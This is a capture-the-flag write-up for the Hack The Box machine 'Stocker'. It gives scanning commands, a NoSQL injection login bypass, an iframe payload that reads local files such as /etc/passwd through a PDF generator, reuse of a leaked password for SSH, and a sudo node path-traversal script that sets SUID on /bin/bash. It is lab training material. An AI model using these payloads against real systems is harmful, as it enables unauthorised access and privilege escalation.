

# Stocker

## Reconnaissance

### nmap

```
nmap -sV -sC -oA stocker 10.10.11.196
```


### Web

- Home page 


### gobuster for directory

- Using gobuster to bruteforce the path
```
gobuster dir -u http://stocker.htb -w /usr/share/wordlist/dirbuster/directory-list-2.3-small.txt
```


- Nothing special 
    ```
    /img
    /css
    /js
    /fonts
    ```

### wfuzz

- Check subdomain by wfuzz
```
wfuzz -c -f subdomain.txt -Z -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-11000.txt -sc 200,202,204,302,307,403 -u http://stocker.htb -H "HOST:FUZZ.stocker.htb"
```
- Find 1 subdomain: ``` dev.stocker.htb``` 


### gobuster for vhost

- Using gobuster to find subdomain, the result is same as wfuzz.
```
gobuster vhost -u http://stocker.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-11000.txt -o subdomain2.out
```


## Exploit 

- Visit the subdomain page
- It's a login page


### Directory of dev subsite

- Using gobuster to find the directory in dev
```
gobuster dir -u http://dev.stocker.htb -w /usr/share/wordlist/dirbuster/directory-list-2.3-small.txt
```


- Try to login as admin/admin
- Redirect to login-error


- Using simple sql injection payload 
```
' OR 1=1-- -#'
```
- Failed 


- URL Encoding the payload 
- Failed 


- Check Wapplyzer result, the login page use ```Express``` as Web Framework.


- Try nosql injection.
- Using the following nosql injection payload and send the request.
- From [payloadallthethings](https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/tree/master/NoSQL%20Injection)
```
{"username": {"$ne": null}, "password": {"$ne": null}}
```
- The response will become 302 Found, and it will redirect to ```/stock```


- The request will redirect to ```/stock```


- Check the ```/stock ``` page, that is a shopping site.


- I can add the product to Cart then checkout.


- Try to make a checkout, it will call /api/order and response a order number in burp response.


- In web page, it will popup the message and provide a link to check the order receipt which is a PDF file.


- PDF file 


- Cause the error message by following payload in ```id``` column.
```
"_id":"\'OR+1=1--+-#",
```


- Download the PDF file and analysis it.
```
wget http://dev.stocker.htb/api/po/63db491ae858926772fac18e
```
- Using strings to check the PDF, nothing special


- Using exiftool to check the PDF


- The Producer disclose the PDF software 
    - Skia/PDF


- Do some research for Skia/PDF

- This is the function which generate html to PDF
- Search the exploit for this, I find Dynamic PDF exploit(Server Side XSS Exploit ) 

- Try the following payload 
```
<iframe width=\"500\" height=\"1000\" src=file:///etc/passwd></iframe>
```


- Check the PDF file, the ```/etc/passwd``` content will be showed.
- And I also got the information about the target user is: angoose 


- Now I know the user and there is a ssh port open
- So, I need to find the private key or password to login.
- According to the previous error message, I think this site location in ``` /var/www/dev/```
- And there mgiht have an index js file.
- Check this file content.
```
<iframe style='width: 100%; height: 820px;' src=file:///var/www/dev/index.js>
```


- Check the pdf content, I got the index.js content
- And there is a DB connection string in it.
- Copy the password part


- Try the following credential to ssh login
```
1. dev / IHeardPassphrasesArePrettySecure
2. angoose / IHeardPassphrasesArePrettySecure
```
- Second one success


- Check the user


- Get user flag: 
```
efb050a18748846297ea131034dadb4a
```


## Post Exploitation 

- Check sudo permission 
```
sudo -l 
```
- The user angoose can use /usr/bin/node to execute the js file in /usr/local/scripts/


- Check network state
```
netstat -tunlp 
```


- According to sudo permission result, I check [GTFObins](https://gtfobins.github.io/gtfobins/node/) first.
- Using the following payload to escalate
```
node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

```
- But the user still is angoose


- So I use sudo to try again
```
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```


- In here, I think direct use the node to privilege escalation  not work.
- So keep research about nodeJS privilege escalation 
- Then I found [this article](https://stackabuse.com/executing-shell-commands-with-node-js/)


- Copy the sample code from article 
```
const {exec} = require("child_process");

exec("ls -al", (error, stdout, stderr)=>{
    if(error){
        console.log(`error: ${error.message}`);
        return;
    }
    if(stderr){
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```


- Try to upload this code to victim host, and execute it.
- It will execute command successfully.


### Privilege Escalation

- Create a nodeJS file to change the ```/bin/bash ``` permission

```
const {exec} = require("child_process");

exec("chmod u+s /bin/bash", (error, stdout, stderr)=>{
    if(error){
        console.log(`error: ${error.message}`);
        return;
    }
    if(stderr){
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```


- I tried to execute it directly, but it will failed.


- I think that is caused by the node command only allow to execute the file in the directory like folloing:
```
/usr/bin/node /usr/local/scripts
```
- Execute the js file like the following 
```
sudo /usr/bin/bash /usr/local/scripts/../../../home/lsExec.js
```


- The effective uid and gid to be set to the real uid and gid
```
bash -p 
```


- Check uid/gid 
```
id
```


- Get root flag:
```
c3e49452a11b14cb9788f44ca89356c5
```


## Reference 

### Writeup

- [Stocker HTB Walkthrough](https://www.youtube.com/watch?v=GJEUuQO3rBM)
- [Stocker — Hack The Box](https://systemweakness.com/stocker-hack-the-box-34aaac2ef063)
- [(Discussion)Official Stocker Discussion](https://forum.hackthebox.com/t/official-stocker-discussion/270907/18)

### Research / Payload 
- [NoSQL Injection Payload](https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/tree/master/NoSQL%20Injection)
- [GTFObins node](https://gtfobins.github.io/gtfobins/node/)
- [Executing Shell Commands with Node.js](https://stackabuse.com/executing-shell-commands-with-node-js/)
- [Running Basic Shell Commands](https://www.sohamkamani.com/nodejs/executing-shell-commands/)
- [(HackTrick)Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)


- [Bruteforcing Subdomains w/ WFuzz](https://infinitelogins.com/2020/09/02/bruteforcing-subdomains-wfuzz/)
- [NoSql Injection Cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet/)
- [Using Skia's PDF Backend](https://skia.org/docs/user/sample/pdf/)
>Skia is a graphics library used in the Chrome browser, which has a PDF backend - so probably printing a website to PDF from Chrome. When I do that, I find the String Producer (Skia/PDF m75). 75 probably refers to my version of Chromium, so yours would be Chrome 77.


- [(HackTricks)NoSql Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
- [How I discovered an SSRF leading to AWS Metadata Leakage](https://techkranti.com/ssrf-aws-metadata-leakage/)

### ExifTool
- [ExifTool by Phil Harvey](https://exiftool.org/)
- [PDF Tags](https://exiftool.org/TagNames/PDF.html)
- [ exiftool Application Documentation](https://exiftool.org/exiftool_pod.html)

### others

- [PDF File analysis](https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/pdf-file-analysis)
- [PDF Trick](https://github.com/corkami/docs/blob/master/PDF/PDF.md)


- [What's wrong with `bash -p`](https://gtfobins.github.io/gtfobins/bash/)


###### tags: `HackTheBox` `linux` `PDF Exploit` `NoSQLi` `NoSQL Injection` `Server Side XSS(Dynamic PDF)` `nodeJS` `node escalation`